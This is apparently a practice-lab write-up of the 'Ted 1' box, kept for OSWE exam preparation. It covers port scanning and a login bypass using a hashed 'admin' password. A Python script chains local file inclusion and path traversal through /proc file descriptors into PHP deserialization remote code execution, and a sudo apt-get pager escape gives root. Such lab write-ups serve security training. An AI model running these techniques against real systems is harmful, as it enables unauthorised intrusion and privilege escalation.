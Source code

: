 # Ted 1

## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-28 12:44 WEST
Nmap scan report for 10.0.2.35
Host is up (0.00042s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.71 seconds
````

## Port 80

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/3ec8efbd-65df-48b3-a38f-c494d515c141)


So, the user 'test' shows the following response

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d7749911-be73-4100-9ce8-5d7a7de814de)

While 'admin' says this

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/08a8661f-73c7-4d1e-b122-3e5af905d5ca)

We know it's a PHP website. There's a neat trick to find this out. If you are on the homepage, try different extensions for index - /index.php, /index.html and so on.
This wasn't required here due to the login request endpoint having the .php extension

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/f0f554c9-c0a9-4b73-8cfe-b7c0ad4f1eb3)

Admin with a random passwords throws the error
``Password or password hash is not correct, make sure to hash it before submit.``

admin : admin gets the following response

``Password hash is not correct, make sure to hash it before submit.``

I tried to guess a bunch of extra parameters (hash, passwordhash, etc...) but without any luck. I then tried a bunch of hashes of the word 'admin' in the password parameter and I finally got something with SHA-256

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/3e625f20-6132-44d4-8a23-9a5615decd39)

Logged in through the front end, and we're in!

## Simple File Browser

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/63663dc8-b89a-49cb-b13e-cc0da4cda553)

LFI + Path Traversal, nice. We know there's a user 'ted' in the box

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/ea3d6f01-5a68-443e-b18f-ba144270b108)


Including the file /proc/self/stat we can find the PID of the current apache process

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/5f0a2ff1-4201-4e7d-aee1-0927106c1d6f)


Through a bit of brute force we found the file descriptor 12 with the cookies content

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fbce5513-efab-4667-85f5-3c5a7e6235b4)

Now we should inject code in the cookie and brute force the FD again until it's executed on the page (it's constantly changing)

It's painful to keep checking the PID and then brute forcing the FD, there's a time gap that doesn't make this easy. So let's build a script


## Reverse Shell


My regex is not the best, so I came up with this compilation of string.splits to find what I wanted. Here's the code

````
import requests, re


for i in range(0,500):
        # Request with cookies (and test user_pref)
        r = requests.post('http://10.0.2.35/home.php', data={'search':'search=../../../../..../../../../../proc/self/stat'}, cookies = {'PHPSESSID':'1fv378fppsm2rb8s16u8q8nfh4', 'user_pref':'TESTING+INSECURE+DESERIALIZATION'})

        # get PID
        pid = r.text.split(' (apache2)')[0][-4:]

        # loop through the FDs with the just found PID
        r = requests.post('http://10.0.2.35/home.php', data={'search':'search=../../../../..../../../../../proc/'+pid+'/fd/'+str(i)}, cookies = {'PHPSESSID':'1fv378fppsm2rb8s16u8q8nfh4'})

        # if the reponse is slightly larger than usual, grep the deserialized cookie
        if len(r.text) > 1110:
                toPrint = r.text.split('<br><br><br><br><br><br><br><br>')[1].split('</div>')[0]
                print(toPrint)
````

For some reason it doesn't find the file everytime, maybe 0 to 500 FDs isn't enough. Anyway, here's an example of the output:

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/2ccfce4d-6325-4b1f-a808-4e3f8117065c)

This is an insecure PHP object deserialization. I tweaked the payload so the value of the cookie would be the first argument when calling the program from the command line

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/5be16d46-5e2e-42d7-be68-df3761fa818b)

And we got RCE! I am super proud of this since I don't typically build this kind of script. Took me a bit, but IT'S WORKING! :D

Now to the easy part, run it with a reverse shell and wait for the call back

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/ca49e8fc-24cc-4c9f-b599-9b9f43bb675d)



## Privilege Escalation


This should be an easy win

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/f75d502f-0f11-4cc3-bfe1-ee0f26f8835b)

From GTFOBins

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/9e3ba53c-faf4-4b53-b77e-1d395e28c0fb)


````
www-data@ubuntu:/tmp$ sudo /usr/bin/apt-get changelog apt
Get:1 http://changelogs.ubuntu.com apt 1.2.32 Changelog [411 kB]
Fetched 411 kB in 0s (645 kB/s)
WARNING: terminal is not fully functional
/tmp/apt-changelog-01J2rB/apt.changelog  (press RETURN)
apt (1.2.32) xenial; urgency=medium

  * Add test case for local-only packages pinned to never
  * Prevent shutdown while running dpkg (LP: #1820886)
  * Add linux-{buildinfo,image-unsigned,source} versioned kernel pkgs
    (LP: #1821640)

 -- Julian Andres Klode <juliank@ubuntu.com>  Tue, 07 May 2019 12:57:03 +0200

apt (1.2.31) xenial; urgency=medium

  * Fix name of APT::Update::Post-Invoke-Stats (was ...Update-Post...)
  * apt.dirs: Install auth.conf.d directory (LP: #1818996)
/tmp/apt-changelog-01J2rB/apt.changelog
  * Merge translations from 1.6.10 (via 1.4.y branch)
:

:!/bin/bash
!/bin/bash
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/tmp#
````

Honestly I am okay with these boxes having an easier privesc. The first part of them are usually close to what I am expecting of the OSWE, but there isn't a local privilege escalation step like this in the exam, so that's okay by me.

One of my favorite boxes so far. Again, I'm super happy with the script I built :)
